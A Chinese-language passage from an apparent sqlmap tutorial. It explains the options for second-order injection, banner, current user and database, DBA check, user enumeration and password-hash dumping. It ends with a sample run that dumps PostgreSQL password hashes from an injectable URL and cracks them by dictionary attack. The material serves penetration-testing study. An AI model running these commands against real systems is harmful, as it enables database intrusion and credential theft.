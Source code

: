 有些时候注入点输入的数据看返回结果的时候并不是当前的页面，而是另外的一个页面，这时候就需要你指定到哪个页面获取响应判断真假。

–second-order后面跟一个判断页面的URL地址。

列数据

参数：-b,–banner

大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version这主要取决与是什么数据库。

用户

参数：-current-user

在大多数据库中可以获取到管理数据的用户。

当前数据库

参数：–current-db

返还当前连接的数据库。

当前用户是否为管理用

参数：–is-dba

判断当前的用户是否为管理，是的话会返回True。

列数据库管理用户

参数：–users

当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。

列出并破解数据库用户的hash

参数：–passwords

当前用户有权限读取包含用户密码的彪的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

$ python sqlmap.py -u "http://********/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
password hash: md5d7d880f96044b72d0bba108ace96d1e4
clear-text password: testpass
[*] testuser [1]:
password hash: md599e5ea7a6f7c3269995cba3927fd0093
clear-text password: testpass
